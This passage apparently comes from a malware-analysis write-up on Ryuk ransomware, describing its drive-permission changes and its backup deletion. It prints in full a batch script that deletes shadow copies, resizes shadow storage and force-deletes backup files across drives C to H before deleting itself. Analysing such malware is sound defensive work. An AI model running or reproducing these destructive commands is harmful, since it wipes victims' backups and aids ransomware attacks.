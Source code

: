 ## Changing Drive Permissions

Ryuk changes the permissions of all Logical drives using icacls.exe:

![image-20201113214010779](/assets/images/ryuk/image-20201113214010779.png)

## Deleting Backups

Ryuk deletes the shadow copies with WMI and vssadmin.exe:

![image-20201113225157090](/assets/images/ryuk/image-20201113225157090.png)

Ryuk also drops a batch script to disk to delete all shadow copies and all possible backups:

```
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0
```